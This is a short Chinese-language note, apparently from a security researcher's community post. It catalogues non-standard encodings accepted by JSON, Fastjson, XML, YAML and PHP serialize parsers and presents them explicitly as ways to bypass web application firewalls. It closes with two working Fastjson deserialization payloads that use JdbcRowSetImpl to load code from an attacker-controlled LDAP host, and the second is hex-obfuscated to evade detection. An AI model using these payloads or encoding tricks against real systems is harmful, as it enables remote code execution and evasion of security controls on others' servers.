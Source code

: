 # 来自p师傅的知识星球
》抽空整理了一下各种序列化方式中支持的一些编码方式，我们可以在遇到一些限制、WAF的时候使用这些编码进行绕过。

### JSON：
json是最常用到的序列化方法，json中支持使用unicode编码，目标解析的时候会自动解码，
比如：`{"name": "\u0023vulhub\u0023", "age": 12}`

### Fastjson：
把Fastjson单独拎出来，因为这货除了漏洞多，即使没漏洞的最新版本，他内部存在很多奇葩的非标准操作。
比如，fastjson支持16进制编码：`{"name": "\x23vulhub\x23", "age": 12}`，这在标准的json中是不会被解析的；他还支持在json中插入注释，
比如`{"name": /*evil*/"vulhub", "age": 12}`，标准中也不支持，Jackson中可以通过开启一个选项支持这个语法；他还支持使用单引号替代双引号，
比如`{"name": 'vulhub', "age": 12}`；另外fastjson支持的各种非标准feature太多，不一一写出来了。利用这些非标准的特性，可以用来绕过很多语义化的WAF。

### XML：
xml默认支持16进制和10进制的HTML实体编码，
如`<root><name>&井35;vulhub&井x23;</name></root>`，也支持英文单词形式的实体，如`&amp;`。

### YAML：
yaml的双引号中可以使用16进制编码和unicode编码，
如`name: "\x23vulhub\u0023"`，单引号内不支持编码。

### php serialize：php的反序列化中，可以用一种长得像8进制编码，实际上是16进制编码的方式表示字符串，
具体可以参考我在星球分享过的帖子： https://t.zsxq.com/3faIYzN​

```
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://IP:7777/Exploit","autoCommit":true}}}

{"name":{"\x40\x74\x79\x70\x65":"java.lang.Class","val":"\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x72\x6f\x77\x73\x65\x74\x2e\x4a\x64\x62\x63\x52\x6f\x77\x53\x65\x74\x49\x6d\x70\x6c"},"x":{"\x40\x74\x79\x70\x65":"\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x72\x6f\x77\x73\x65\x74\x2e\x4a\x64\x62\x63\x52\x6f\x77\x53\x65\x74\x49\x6d\x70\x6c","dataSourceName":"ldap://xxx.xxx.xxx.xxxs:1389/Exploit","\x61\x75\x74\x6f\x43\x6f\x6d\x6d\x69\x74":true}}

```

